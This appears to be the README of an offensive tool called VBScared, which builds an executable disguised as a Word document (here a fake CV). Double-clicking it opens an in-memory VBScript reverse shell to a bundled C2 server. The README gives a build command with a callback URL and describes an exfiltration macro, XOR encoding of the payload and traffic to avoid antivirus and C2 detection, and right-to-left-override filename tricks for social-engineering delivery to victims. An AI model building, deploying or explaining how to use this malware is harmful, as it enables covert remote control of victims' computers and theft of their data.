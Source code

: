 # VBScared Tool 👻

VBScared is an executable, disguised as a .docx file, that executes a VBScript in-memory reverse shell upon double clicking. The executable can be delivered to victims via social engineering tactics.

## Installation

2 tools are needed during compilation. Add the following binaries to your PATH:

* [Windres](https://winlibs.com/) (this is needed to attach icons to the generated executable and is included in mingw-w64, scroll down to find the downloads)
* [CL](https://visualstudio.microsoft.com/) (included in visual studio, example path C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.41.34120\bin\Hostx64\x64\cl.exe)
* [VsDevCmd](https://visualstudio.microsoft.com/) (included in visual studio, example path C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\VsDevCmd.bat)

## Automated build

After adding the previous binaries to your PATH, you can run the `generate.py` script under `scripts` to automate the build process. For example, running the following command will result in an executable disguised as `CV-of-Alexe.docx`. Note that we chose the name Alexe here, as exe is always present in the name.

```
py -3 .\scripts\generate.py -p disguisedshell.vbs -a CALLBACK_URL=http://localhost:80/ FILE_URL=https://cdn.create.microsoft.com/catalog-assets/en-us/972db91c-baf9-4c6b-9605-00b3aa24e07c/TF972db91c-baf9-4c6b-9605-00b3aa24e07c06706e45_wac-21b6606d1277.docx FILE_OUTPUT_NAME=CV-of-Alexe.docx -o CV-of-Al  -s **[]!?**
```

## C2

The `disguisedshell.vbs` payload is designed to work with the bundled python C2 server. To use the C2 server, simply point your CALLBACK_URL (when using `generate.py`, see above) to your C2 host. The C2 will notify you in case a client connects. Type `HELP` for possible commands.

## Features
* Manage multiple connected clients
* Execute commands
* C2 detection evasion, the C2 detects client requests from investigation/other requests and will answer with 404 if request is not coming from client
* Exfilatration macro available
* Payloads are encoded (XOR + key) inside the executable and decoded at runtime. Use -s to encode with a key, different keys will result in different signatures for your executable. This is also useful to avoid AV detection.
* Traffic between clients and the C2 is encoded (XOR + key) to avoid detection.

## Q&A

#### Why is it not visible to the naked eye that the exploit file is actually an executable
We make use of a technique called RTLO hacking (right-to-left-override hacking) to hide our malware in plain sight, see [here](https://www.freecodecamp.org/news/rtlo-in-hacking/) for a detailed explanation.